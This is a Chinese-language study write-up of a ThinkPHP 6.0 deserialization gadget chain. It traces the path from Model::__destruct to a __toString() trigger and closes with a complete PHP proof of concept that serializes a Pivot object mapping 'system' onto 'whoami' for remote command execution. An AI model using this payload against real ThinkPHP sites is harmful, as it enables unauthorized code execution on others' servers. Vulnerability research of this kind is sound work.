





# ThinkPHP 6.0反序列化利用链学习
---

## 安装环境
直接按照github上[ThinkPHP官方](https://github.com/top-think/think/tree/6.0)提供的方式安装
mac下：
```bash
$ curl -sS https://getcomposer.org/installer | php
$ php composer.phar create-project topthink/think tp
```
我还是直接在sublime中运行think文件进行调试
注意这里在think中`unserialize(urldecode("xxx"));`的代码位置
如果放在`(new App())->console->run();`后运行会有点问题：因为`run()`中有`exit()`
(这里不可注释，因为需要`(new App())->initialize();`来初始化，否则`Model.php`的`db()`中的`self::$db`一直为NULL）
以下提供3种解决办法：
- 这里可以在`/public/index.php`中调试
- 把`think`中`(new App())->console->run();`改为`(new App())->console;`或`(new App())->initialize();`
- 在`think`的`(new App())->console->run();`之前加入反序列化的触发点


## 利用链
6.0和之前的区别在于6.0.x版本取消了`Windows`类，也就是删除了最开始的`__destruct()`
不过`__toString()`之后的链(动态调用的链，包含*route.php也已失效)仍然存在
所以要找到一个新起始触发点，来触发`__toString()`

”通常最好的反序列化起始点为`__destruct()`、`__wakeup()`,因为这两个函数的调用在反序列化过程中都会自动调用，所以我们先来找此类函数。这里我找了`vendor/topthink/think-orm/src/Model.php`的`__destruct()`函数。“
随着大佬的脚步，到`vendor/topthink/think-orm/src/Model.php`瞅一瞅

`$this->lazySave`可控，跟到`save()`

这里要保证`$this->trigger('BeforeWrite')`和`$this->isEmpty()`不为`false`，默认前者为`true`
后面这个是判断了`$this->data`有无值，可控
接着看到函数`updateData()`

出发点在这个截图的最下方也就是`$allowFields = $this->checkAllowFields();`
不过要保证执行到这一步，需要构造前面不`return`,要保证`$data`不能为空
`checkData()`函数啥都没干，`$this->getChangedData()`为

可构造`$this->force`，即可进入`checkAllowFields()`

跟到`$this->db()`

发现有字符串拼接且参数可控,可以触发`__toString()`了(注意还要满足`$this->connection`为`mysql`)


## POC
```php
<?php
namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
        private $data = ['test' => "whoami"];    //此处2个键名要相同，值为$value
        private $withAttr = ['test' => "system"];    //此处2个键名要相同，值为$closure
        private $lazySave = true;
        private $exists = true;
        protected $connection = "mysql";
        protected $name;
        function __construct(){
                $this->name = $this;
        }
    }
}

namespace think\model {
    use think\Model;
    class Pivot extends Model{
    }
}


namespace{
    $payload = new think\model\Pivot();
    echo urlencode(serialize($payload));
}
```

## 参考链接
1.[thinkphp v6.0.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187393)